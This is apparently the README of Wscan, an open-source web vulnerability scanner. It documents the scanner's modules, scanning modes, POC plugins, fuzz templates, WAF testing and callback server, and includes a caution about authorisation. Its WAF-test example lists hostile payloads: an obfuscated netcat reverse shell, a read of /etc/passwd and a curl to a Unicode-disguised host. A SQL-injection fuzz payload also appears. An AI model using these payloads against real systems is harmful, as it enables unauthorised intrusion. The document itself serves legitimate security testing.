

# 序言
最近，我对几款Webscan扫描器进行了深入分析，原以为它们的开发者都是那些有着多年经验，临近退休的前辈。然而，事实却大相径庭，他们竟然是些头脑灵活、刚毕业几年的年轻人。
这让我这位从事扫描器开发近十年的人有些措手不及，深感焦虑。只要大家有需要Wscan, 在未来25年里，我将和年轻人一起再卷25年，持续更新Wscan，把年轻人卷到老。
我会竭尽全力将其做到最好，力求完美，不留任何遗憾。
# 功能简介
Wscan是一款开源的安全评估工具，主要用于扫描常见的web安全问题，同时支持自定义POC，是一款非常强大的web漏洞扫描软件。此外，该工具还具备机器学习的漏洞检测和自动化测试功能。
在使用Wscan扫描的时候，一定要获取对方的授权，否则一定不要去扫描别人的服务器。
漏洞扫描器不是万能的，很多很深的漏洞它也是发现不了的，所以我们一定学习好漏洞原理，利用知识去解决漏洞问题。

# 检测模块

|       检测模块       | Wscan | Xray | 说明                                                              |
|--------------|-------|------|-----------------------------------------------------------------|
| `xss`        |   √    |   √   | 利用语义分析的方式检测XSS漏洞                                                |
| `sqldet`     |   √    |   √   | 支持报错注入、布尔注入和时间盲注等                                               |
| `cmd-injection` |      √ |   √   | 支持 shell 命令注入、PHP 代码执行、模板注入等                                    |
| `dirscan`    |    √   |   √   | 检测备份文件、临时文件、debug 页面、配置文件等10余类敏感路径和文件                           |
| `path-traversal` |     √  |   √   | 支持常见平台和编码                                                       |
| `xxe`        |    √   |    √  | 支持有回显和反连平台检测                                                    |
| `upload`     |     √  |    √  | 支持常见的后端语言                                                       |
| `brute-force` |     √  |    √  | 社区版支持检测 HTTP 基础认证和简易表单弱口令，内置常见用户名和密码字典                          |
| `jsonp`      |    √   |  √    | 检测包含敏感信息可以被跨域读取的 jsonp 接口                                       |
| `ssrf`       |    √   |   √   | ssrf 检测模块，支持常见的绕过技术和反连平台检测                                      |
| `baseline`   |    √   |  √    | 检测低 SSL 版本、缺失的或错误添加的 http 头等                                    |
| `redirect`   |   √    |  √    | 支持 HTML meta 跳转、30x 跳转等                                         |
| `crlf-injection` |     √  | √     | 检测 HTTP 头注入，支持 query、body 等位置的参数                                |
| `xstream`    |    √  |√      | 检测XStream系列漏洞                                                   |
| `struts`     |    √   | √     | 检测目标网站是否存在Struts2系列漏洞，包括s2-016、s2-032、s2-045、s2-059、s2-061等常见漏洞 |
| `thinkphp`   |  √     | √     | 检测ThinkPHP开发的网站的相关漏洞                                            |
| `shiro`      |   √    |   √   | 检测Shiro反序列化漏洞                                                   |
| `fastjson`   |  √     |  √    | 检测fastjson系列漏洞                                                  |
| `Nuclei YAML POC` |    √     |  ×     | Nuclei 标准的POC检测插件                                               |
| `Xray YAML POC` |     √     | √        | Xray 标准的POC检测插件                                                 |
| `Goby JSON POC` |     √       |     ×      | Gody 标准的POC检测插件                                                 |
| `自定义FUZZ插件`    |     √         |  ×           |      对body、query中的参数进行模糊测试                                                        |
| `Waf绕过/Waf测试`    |     √         |  ×           |       自定义各种特殊的Payload，测试Waf是否能拦截                                                         |
| `WEB组件识别`    |     √         |  ×           |       识别网站应用的组件及相关技术                                                         |

# 代理扫描
配置漏扫插件、动态爬虫、静态爬虫代理
```
http:
    proxy: "socks5://153.34.245.41:7777"
```

# 主动扫描
主动扫描，支持静态爬虫、动态爬虫、URL文件、单个URL等
## Ⅰ.深度扫描
Wscan首次运行时，将会生成一个名为config.yaml的文件。将plugins下面的所有插件的enabled设置为True。
**如果要进行POC扫描，请先参考POC扫描配置，下载插件包并配置插件包路径。**
```
./wscan  --log-level=debug ws --basic-crawler http://testphp.vulnweb.com/ --json-output=wscan_scan_result.json --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --browser  http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html
./wscan  --log-level=debug ws --url http://testphp.vulnweb.com/listproducts.php?cat=1  --json-output=wscan_scan_result.json
./wscan  --log-level=debug ws --url-file=/wscan/url_file.txt --html-output=wscan_scan_result.html
```
## Ⅱ.专项扫描
在命令行中使用plug参数启用要扫描的插件
```
./wscan  --log-level=debug ws  --plug=sqldet --basic-crawler http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html
```
# 被动扫描
## Ⅰ.生成并安装CA
运行genca命令之后，将在当前文件夹生成 ca.crt 和 ca.key 两个文件。
```
./wscan genca
```
安装CA的方法与XRAY一致，可以参考XRAY文档

## Ⅱ.专项扫描被动
在命令行中使用plug参数启用要扫描的插件
```
./wscan  --log-level=debug ws  --plug=sqldet,xss  --listen=127.0.0.1:1000 --json-output=wscan_scan_result.json  
```

## Ⅲ.深度扫描被动
Wscan首次运行时，将会生成一个名为config.yaml的文件。将plugins下面的所有插件的enabled设置为True。
**如果要进行POC扫描，请先参考POC扫描配置，下载插件包并配置插件包路径。**
```
./wscan  --log-level=debug ws --listen=127.0.0.1:1000 --json-output=wscan_scan_result.json  
```

# POC扫描
## 下载插件包
Wscan不内置任何POC插件，但Wscan的prometheus插件引擎已支持Nuclei、XRAY、Goby 标准POC插件，
与其它扫描器不同的是Wscan可以自定义POC检测的深度，从而发现更多的Web安全问题。

我们把下载的 X-ray 和 Nuclei 插件包放入同一个目录，并在配置文件中指定插件包的路径。


### Step1
XRAY、Goby POC插件包下载地址

```
https://github.com/chaitin/xray/tree/master/pocs
```


### Step2 
Nuclei POC插件包下载地址
```
https://github.com/projectdiscovery/nuclei-templates/tree/main/http
```
Nuclei包含许多类型插件，只建议保存nuclei-templates-main/http中的插件，将其拷贝到wscan-poc目录中即可
## 专项扫描
Ⅰ. 同时扫描Nuclei、XRAY、Goby POC插件, 这种模式下只启用POC检测插件，不启用其它类型的插件
```
./wscan --log-level=debug ws  --poc=/your_wscan_poc/wscan-poc/pocs/* --url http://testphp.vulnweb.com/ --html-output=wscan_scan_result.html
./wscan --log-level=debug ws  --poc=/your_wscan_poc/wscan-poc/pocs/*  --url-file=/url_file.txt  --html-output=wscan_scan_result.html
```
## 深度扫描
Ⅰ.运行方式与主被动扫描一致，但需要配置插件包路径
```yaml
prometheus:
    enabled: true
    depth: 1                 # 是探测深度, 默认为 1, 即只在 URL 深度为 0, 和深度为 1 时运行该插件
    auto_load_poc: false
    include_poc: 
       - C:\wscan_windows_amd64.exe\wscan-poc-1.0.1\pocs\*
    exclude_poc: []

```

# 自定义FUZZ插件

不同于POC测试，自定义FUZZ插件，会对指定位置的参数进行FUZZ, 并支持自定义CEL表达式来验证是否存在漏洞
## Step1 编写自定义FUZZ插件
样例参考 https://github.com/chushuai/wscan/tree/main/core/plugins/custom/tmpl/
```yaml
name: "custom-sqli"
set:
  r1: randomInt(800000000, 1000000000)
payload:
  - extractvalue(1,concat(char(126),md5({{r1}})))
placeholder:
  - query
  - body
  - header
  - cookie
expression:  response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))
```

## Step2 修改配置文件
您需要修改config.yaml文件中的以下内容，以指定custom的路径。
```yaml
custom:
    enabled: true
    depth: 0
    auto_load_tmpl: false
    include_tmpl:
        - /wscan/core/plugins/custom/tmpl/*.yml
    exclude_tmpl: []
```
## Step3 执行自定义FUZZ插件
通过命令行启用--plug=waftest，即可对目标网站进行自定义Payload测试。
```
./wscan --log-level=debug ws --plug=custom --url http://testphp.vulnweb.com/listproducts.php?artist=1  --html-output=wscan_scan_result.html
```

#  Waf绕过/Waf测试
 不同于POC测试，自定义WEB通用漏洞扫描插件，会对指定位置的参数进行FUZZ,

## Step1 插件样例
样例参考 https://github.com/chushuai/wscan/tree/main/core/plugins/waftest/tmpl/owasp
```yaml
payload:
- $(printf 'hsab/nib/ e- 4321 1.0.0.721 cn'|rev)
- /etc/passwd
- "`curl -L http://\u24BC\u24C4\u24C4\u24BC\u24C1\u24BA.\u24B8\u24C4\u24C2`"
encoder:
- URL
placeholder:
- URLParam
- HTMLForm
- HTMLMultipartForm
- JSONRequest
type: "RCE"
```
## Step2
   您需要修改config.yaml文件中的以下内容，以指定include_tmpl的路径。
```yaml
waftest:
    enabled: true
    depth: 0
    auto_load_tmpl: false 
    include_tmpl:
      - /wscan/core/plugins/custom_tmpl/tmpl/owasp/*.yml
    exclude_tmpl: [ ]
    block_status_codes: # 被WAF阻止时HTTP状态码列表,默认值为403
      - 403
    pass_status_codes: # 未被WAF阻止时HTTP状态码列表, 默认值为200或404
      - 200
      - 404
    block_regex: "" # 被WAF阻止网页的正则表达式
    pass_regex: "" # 未被WAF阻止网页的正则表达式
    non_blocked_as_passed: false
```
## Step3 执行自定义waftest插件

通过命令行启用--plug=waftest，即可对目标网站进行自定义Payload测试。
```
  ./wscan --log-level=debug ws --plug=custom_tmpl  --browser  http://testphp.vulnweb.com/  --html-output=wscan_scan_result.html
```
       
# 返连模块
在进行漏洞检测的时候，我们会发现有很多的漏洞在执行了一些命令后，从表面上看没有任何回应的，比如命令执行漏洞，log4j rce，fastjson，ssrf等等，
但由于前端并没有对应的展示，导致我们并不能知道文件是否成功读取，那么当面对这类的漏洞，我们就需要一个反连平台，
通过让目标执行ping、curl等命令，对反连平台发起请求，反连平台在接受到请求后， 就能告诉我们，命令触发了，也就代表了漏洞存在了。


注意： **Wscan支持http、dns、rmi、ldap四种返连类型，其中http、rmi、ldap复用同一个端口。**

## 独立部署模式
### Ⅰ.服务端部署
```yaml
reverse:
    db_file_path: "reverse.db"
    token: "xxxx"
    http:
        enabled: true
        listen_ip: 0.0.0.0
        listen_port: ""
        ip_header: ""
    dns:
        enabled: false
        listen_ip: 0.0.0.0
        domain: ""
        is_domain_name_server: false
        resolve:
            - type: A
              record: localhost
              value: 127.0.0.1
              ttl: 60
    client:
        remote_server: false
        http_base_url: ""
        dns_server_ip: ""
```
### Ⅱ.客户端配置
```yaml
reverse:
    token: "xxxx"
    client:
        remote_server: true
        http_base_url: ""
        dns_server_ip: ""
```

